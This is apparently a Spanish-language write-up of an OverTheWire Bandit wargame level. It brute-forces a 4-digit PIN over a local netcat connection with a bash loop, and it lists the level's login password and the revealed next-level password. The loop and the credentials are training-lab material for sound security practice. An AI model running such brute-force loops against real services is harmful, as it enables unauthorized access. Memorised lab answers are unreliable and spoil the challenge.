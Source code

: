 ### Objetivo
Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le da la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN excepto revisando todas las 10000 combinaciones, lo que se denomina fuerza bruta.
No es necesario crear nuevas conexiones cada vez.
### Datos de acceso
- Puerto: 2220
- Dirección: bandit.labs.overthewire.org
- Contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
- Usuario: bandit24
### Solución

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```

### Notas adicionales


### Referencias
